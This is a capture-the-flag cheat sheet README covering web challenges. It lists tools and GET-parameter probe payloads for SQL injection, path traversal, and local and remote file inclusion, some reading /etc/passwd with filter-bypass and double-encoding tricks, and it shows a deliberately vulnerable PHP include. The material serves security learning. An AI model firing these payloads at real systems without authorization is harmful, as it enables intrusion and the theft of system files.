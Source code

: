 # CTF Candy // ProsD Edition

My goal of this repository is to create a good and up to date cheat sheet for Capture the flag events and computer security.

The one thing I hate the most is when I try a lot of different things and forgot about a simple one. This is what I aim to change!

I will also try to update this repository frequently. Pull requests are welcome

## Web
Web challenges can often by tricky. Sometimes you have no clue what to do.
A good recommendation is try to find stuff that is out of the ordinary.

*Useful tools to begin with*

* ZAP with generic reconnaissance
* Burpsuite for request manipulation
* Python with requests lib for automation
* ngrok for XSS


#### Injection in GET parameter
Here you have to manually try to enter some stuff to understand more about the application.

* `?id='`
        Test for SQL injection

* `?page[]=`
        Send an array, this might crash or reveal debug information about the error. Sometimes you might even get the source code of the application.

* `?id=-1`
        Try negative numbers

* `?id=99999999999999999999999999` or `?id=-999999999999999999999999`
        Try both positive and negative numbers

* `?page=....//....//....//....//etc/passwd`
        This might sometimes work if the application removes ../ from the url.

* `?page=../../../../etc/passwd`
        Local file inclusion (LFI)

* `?page=../html/index`
        Test for limited local file inclusion.
    The code could look like this in php:
    ```php
    <?php
        include $_GET['page'] . '.php';
    ```

* `?page=http://remote-file.js`
        Remote file inclusion

* `?page=%252e%252e%252fetc%252fpasswd`
        Double encoding + LFI

